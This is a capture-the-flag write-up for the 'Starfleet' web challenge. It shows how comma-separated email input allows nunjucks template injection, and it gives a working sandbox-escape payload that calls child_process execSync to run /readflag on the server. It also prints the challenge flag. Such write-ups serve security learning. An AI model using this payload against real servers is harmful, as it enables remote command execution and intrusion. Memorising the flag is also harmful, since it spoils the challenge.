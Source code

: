 # Starfleet

## Challenge

We are given a webpage where we can enter an email address.
An email will then be sent to the address with a short message:

```
Hello vexixa7893@sumwan.com

A cat has been deployed to process your submission 🐈
```

## Solution

We can enter multiple email addresses by separating them with commas and the server will attempt to email each address.
This allows us to manipulate the user input variable while still getting the email output.

The email is vulnerable to template injection, which we can verify by using our temporary email address and something like `{{ 1 + 1 }}`:

```
Hello vexixa7893@sumwan.com,2

A cat has been deployed to process your submission 🐈
```

Thanks to this blog post for providing the nunjucks sandbox escape:

http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine

There is a binary in the docker container at `/readflag` which will output the contents of the flag file.
Using the above sandbox escape technique, we can call the binary and inject the flag into the email template:

```
vexixa7893@sumwan.com,{{range.constructor("return global.process.mainModule.require('child_process').execSync('/readflag')")()}}
```

```
Hello vexixa7893@sumwan.com,CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}

A cat has been deployed to process your submission 🐈
```

## Flag

`CHTB{I_can_f1t_my_p4yl04ds_3v3rywh3r3!}`

